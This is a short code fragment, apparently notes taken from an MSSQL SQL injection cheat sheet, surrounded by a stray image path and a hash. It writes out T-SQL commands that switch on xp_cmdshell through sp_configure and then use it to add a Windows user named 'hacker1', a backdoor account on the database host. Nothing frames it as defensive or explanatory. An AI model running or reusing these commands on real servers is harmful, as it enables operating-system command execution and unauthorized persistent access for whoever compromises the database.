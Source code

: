 http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet


EXEC sp_configure 'show advanced options', 1
go
RECONFIGURE
go
EXEC sp_configure 'xp_cmdshell', 1
go
RECONFIGURE
go



xp_cmdshell "net user hacker1 password /add"
go


26b4cb0930a3e3be4da8e9d738607427
